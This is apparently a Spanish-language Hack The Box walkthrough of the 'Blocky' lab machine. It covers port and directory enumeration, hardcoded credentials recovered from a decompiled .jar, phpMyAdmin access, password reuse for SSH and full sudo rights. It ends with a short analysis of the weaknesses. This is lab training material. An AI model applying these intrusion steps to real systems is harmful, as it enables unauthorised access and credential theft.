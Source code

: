 # Blocky ![Avatar](https://www.hackthebox.eu/storage/avatars/f412784c311bdf52c3655381d2c9cd21_thumb.png)

## Initial Scan
```nmap
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

## Enum
### HTTP
#### Gobuster
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/wiki (Status: 301)
/wp-admin (Status: 301)
/wp-content (Status: 301)
/wp-includes (Status: 301)
```
#### Wpscan
```
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

#### Plugins

Vine buscando cobre y encontre oro :v , iba a checekar por plugins vulnerables y sin embargo encontre un archivo.jar

Descargamos, decompliamos 
```
http://www.javadecompilers.com/processing
```
Y analizamos
```
public BlockyCore() {
        this.sqlHost = "localhost";
        this.sqlUser = "root";
        this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
    }
```

#### Phpmyadmin

Como vimos antes haciendo gobusting encontramos phpmyadmin funcionando en el servidor, usamos las creds de antes y entramos sin problemas 

Pasamos al modo de SQL
```SQL
SELECT * FROM wp_users WHERE user = "notch";
```
Como respuesta a esta query obtenemos las credenciales de notch
```
notch:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/
```
Faltarían dehashearlas, pero vamos a comprobar si las contraseñas se han usado en el ssh para algun usuario y efectivamente el user notch tiene la misma pass que en el phpmyadmin

## Privesc

```
sudo -l

Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

# Analisís de la intrusión
### Sensible data exposure
En los archivos expuestos de la app tenemos un .jar con credenciales hardcodeadas las cuales podemos usar para logearnos en el CMS
### Reutilización de contraseñas
Se ha usado la misma contraseña àra el CMS y el sistema de modo que al comprometerse un servicio del usuario se comprometieron varios
